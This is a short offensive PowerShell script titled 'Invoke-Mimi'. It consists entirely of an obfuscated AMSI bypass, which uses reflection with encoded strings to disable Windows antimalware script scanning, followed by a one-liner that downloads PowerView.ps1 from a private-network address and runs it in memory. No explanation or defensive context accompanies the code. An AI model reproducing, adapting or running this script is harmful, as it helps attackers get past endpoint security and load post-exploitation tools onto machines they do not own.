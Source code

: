# Invoke-Mimi

#Evasion de AMSI
$A="5492868772801748688168747280728187173688878280688776828"
$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " " ).GetField([string](38..51|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " ",'NonPublic,Static')."sE`T`VaLUE"(         ${n`ULl},${t`RuE} )

iex(New-Object Net.WebClient).DownloadString('http://172.16.99.38:8000/PowerView.ps1')
